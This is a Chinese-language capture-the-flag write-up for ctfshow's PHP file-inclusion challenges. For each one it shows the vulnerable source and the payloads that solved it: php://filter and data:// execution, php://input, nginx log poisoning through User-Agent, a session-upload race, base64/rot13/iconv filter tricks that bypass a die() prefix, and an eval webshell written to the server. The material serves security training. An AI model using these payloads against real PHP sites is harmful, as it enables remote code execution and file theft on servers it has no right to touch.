## ctfshow-web文件包含


### web78

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

由include代码执行file引入文件，如果执行不成功，就高亮显示源码

可知这就是一个没有任何过滤的文件包含的题目

#### 方法一filter伪协议

file关键字的get参数传递，php://是一种协议名称，php://filter/是一种访问本地文件的协议，/read=convert.base64-encode/表示读取的方式是base64编码后，resource=index.php表示目标文件为index.php。


filter伪协议构造payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

得到base编码后的flag解密得到flag






```
ctfshow{d03c9148-23af-48a1-92e1-ad011f98d415}
```


####  方法二：input协议

php://input 是 PHP 提供的一个伪协议，允许开发者 访问 POST 请求的原始内容。对于 POST 请求数据，PHP 提供了 $_POST 与 $FILES 超全局变量，在客户端发起 POST 请求时，PHP 将自动处理 POST 提交的数据并将处理结果存放至 $_POST 与 $FILES 中

```
<?php system('ls');?>
```






#### 方法三：data协议

data也是利用文件包含漏洞，将输入的代码当作php文件执行。

data协议格式：

```
data://[<MIME-type>][;charset=<encoding>][;base64],<data>
```

 构造payload：

```
?file=data://text/plain,<?php system('tac f*');?>
```

将我们输入的<?php system('tac f*');?>当作php文件来执行，以达到读取flag的目的。

****


### web79

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

发现过滤了php小问题

#### data协议

```
data://text/plain
```

使用到`<?php ?>`可以用`<?= ?>`代替
flag.php可以用`*`或`?`代替部分字符

或是直接使用base64编码

```php
?file=data://text/plain,<?= system("tac fla*") ?>
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhKicpOyA/Pg==

PD9waHAgc3lzdGVtKCd0YWMgZmxhKicpOyA/Pg==等于<?php system('cat flag.php');
```



```
ctfshow{e37fa4f8-13aa-40d3-a57e-dd2af3f4030e}
```


#### php://input

php用大小写绕过

```php
?file=Php://input
post:
<?php system('tac flag.php'); ?>

```

当你使用hackbar的时候，请使用raw模式发送post请求，否则服务端无法接收到post里的内容。

#### 日志包含

```
?file=/var/log/nginx/access.log
```

user-agent里写上

```
<?php system('ls'); ?>
<?php system('tac fl0g.php'); ?>
```




### web80

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

解释

```js
首先，代码使用isset()函数检查是否存在名为'file'的GET参数。如果存在，代码将获取该参数的值并赋给变量$file。

然后，代码使用str_replace()函数对file变量进行两次替换操作。第一次替换将file变量进行两次替换操作。第一次替换将file中的php字符串替换为???，第二次替换将file中的data字符串替换为???。

最后，代码使用include()函数来包含$file变量所代表的文件。
```



发现是nginx服务器所以我们尝试访问这个

日志

```
/var/log/nginx/access.log
/var/log/nginx/error.log
```

然后在user-agent填上命令

```
<?php system('ls'); ?>
<?php system('tac flag.php'); ?>
```



发现有fl0g.php

```
<?php system('tac fl0g.php'); ?>
```



```
ctfshow{bd11a8b0-01fd-4857-95cb-fd049f705bbd}
```


### wbe81

```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

发现比较上一题多了：绕过，我们还是可以使用日志包含

```
?file=/var/log/nginx/access.log
```

User-Agent

```
<?php system('ls'); ?>
<?php system('tac fl0g.php'); ?>
```



发现存在fl0g.php,直接读取

```
<?php system('tac fl0g.php'); ?>
```



```
ctfshow{c23e8725-f1bb-4335-a95d-7cff2f979b4f}
```


### web82

#### session特性与条件竞争

[利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含 - NPFS - 博客园](https://www.cnblogs.com/NPFS/p/13795170.html)

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 19:34:45
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

发现过滤了.

这个日志文件名是 `access.log`所以好像不能用日志包含绕过

发现可以利用php_SESSION_UPLOAD_PROGRESS这一特点进行文件包含。

```
知识点：本质是利用session.upload_progress将恶意语句写入session文件，再包含session文件从而进行攻击。那么如何知道这个session文件的位置呢？

默认情况下，php会在服务器自动创建一个以用户cookie命名的session文件，而这一步的cookie用户可以自己进行修改，从而知道session的文件名。

但值得注意的是，默认情况下一旦读取完成post数据后，便会自动清除相关信息。所以我们要利用条件竞争来规避。
```

首先构造post请求包，上传的文件不限。

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://5bfd0a27-df02-4cb2-a3a6-eb9111fa06c2.challenge.ctf.show/:8080/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

抓包



添加cookie与恶意语句，设置好相关参数，开始攻击，我们就会不断的上传一个包含了恶意代码的文件。





上传之后php会在在服务器上创建一个文件：/tmp/sess_flag的session文件。同时在抓一个get请求?file=/tmp/sess_flag的数据包，配置好参数后进行爆破访问



就这样一边上传一边访问，就会能访问到服务器没有来得及删除的包，得到结果，条件竞争成功，ls命令执行！


### web83

#### session特性与条件竞争

### web84

#### session特性与条件竞争

### web85

#### session特性与条件竞争

### web86

##### session特性与条件竞争


### web87

#### base64编码绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

file_put_contents的用法，file_put_content可以读取本地文件

首先第一个参数是打开文件的路径，第二个是要对这个写入的内容，但是后面有了一个 die的函数，我们需要让它不执行，这里就要涉及到base64可以绕过die函数

因为base64编码范围是`0 ～ 9`,`a ～ z`,`A ～ Z`,`+`,`/` ，所以除了这些字符，其他字符都会被忽略掉

因为base64解密为4字节为一组，并且**base64编码**中只包含64个可打印字符。其他的字符都将被忽略掉，故原来的<?php die('');?>代码经过base64解码会变成`phpdie`,因此需在后面加两个字节变成8个字节

 前面的 file 参数用 **php://filter/write=convert.base64-decode** 来解码写入，这样文件的 die() 就会被 base64 过滤，这样 die() 函数就绕过了


还有就是这里的urldecode函数 会将file的内容解码，所以 file 参数的内容要经过 url 编码再传递。同时网络传递时会对 url 编码的内容解一次码，所以需要对内容进行两次url编码。


因为我们写入的对目标文件写入的内容是前面那个代码和后面我们传入参数content的，所以我们还需要将写入的代码进行base64编码才能达到目的，否则也不能执行，这里注意再php伪协议中，不同的过滤器会有不同的作用，encode会对文件内容进行base64编码，而decode会对文件内容进行解码。


对file传参，就是一个php伪协议来读取文件内容

这里的url是进行两次全编码



```
 file=php://filter/write=convert.base64-decode/resource=2.php
 
 file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%61%25%36%39%25%37%35%25%37%61%25%36%38%25%36%35%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30
```

然后

post提交这个

```
content=<?php system('ls');?>
//base64编码
content=aaPD9waHAgc3lzdGVtKCdscycpOz8+

content=aaPD9waHAgc3lzdGVtKCd0YWMgZmxhZyonKTs/Pg==

```

但是我们好像这个是不好写的


#### Rot13绕过

```
file=php://filter/write=string.rot13/resource=4.php

file=%25%37%30%25%36%38%25%37%30%25%33%41%25%32%46%25%32%46%25%36%36%25%36%39%25%36%43%25%37%34%25%36%35%25%37%32%25%32%46%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%44%25%37%33%25%37%34%25%37%32%25%36%39%25%36%45%25%36%37%25%32%45%25%37%32%25%36%46%25%37%34%25%33%31%25%33%33%25%32%46%25%37%32%25%36%35%25%37%33%25%36%46%25%37%35%25%37%32%25%36%33%25%36%35%25%33%44%25%33%32%25%32%45%25%37%30%25%36%38%25%37%30
```

这个就是凯撒位移13位

```
<?php system('tac fla*');?>
改变后fla*
<?cuc flfgrz('yf');?>
```

先进行编码一下



然后提交一下，访问2.php


之后改变content

```
<?php system('tac f*.php');?>

<?cuc flfgrz('gnp s*.cuc');?>
```



```
ctfshow{6651494f-f66a-4b62-a278-04bd545731a1}
```


### web88

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

好像过滤了大部分的没有过滤冒号 : ，可以使用 data 协议，但是过滤了括号和等号，因此需要编码绕过一下。

这里有点问题，我 ('ls') 后加上分号发现不行，可能是编码结果有加号，题目做了过滤

```
<?php system('ls');?>
base64编码
PD9waHAgc3lzdGVtKCdscycpOz8+
```



好像不能用;



但是好像存在=

所以删除等号

```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpPz4
```



```
然后读取
<?php system('tac fl*')?>
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwqJyk/Pg
PD9waHAgc3lzdGVtKCd0YWMgZmwqJyk/Pg
```



```
ctfshow{35e91252-9568-4a3d-91bb-a93a3793788a}
```


### web116

打开是一个视频下载视频看看有没有隐写



放入hex中，发现有一个png文件



提取出来保存为png



以 get方式给 file 传参进行文件包含，猜测是 flag.php，payload：

```
?file=flag.php
```





```
ctfshow{fff919b5-cf7e-40d6-af93-ed17f2f83d7f}
```


### web117

####  UCS-2BE 编码

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: yu22x
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 18:16:59

*/
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

需要在绕过 filter 函数过滤的基础上，再来绕过死亡函数。base64、rot13、string 这些都被过滤了，果然尝试前面的方法，发现不行，因为正则匹配是针对 url 解码后的内容进行的。


把一句话木马从 UCS-2LE 编码转换为 UCS-2BE 编码：

```php
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
```

运行得到

```
?<hp pe@av(l_$EG[T]1;)>?
```

post 传入：

```php
contents=?<hp pe@av(l_$EG[T]1;)>?
```

payload：

```
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php
```


执行之后调用

```
/hack.php?1=system('ls');
```




然后去查看flag.php

```
/hack.php?1=system('tac flag.php');
```



```
ctfshow{ef3d62a7-e99b-4348-9538-78fe2bb81f16}
```

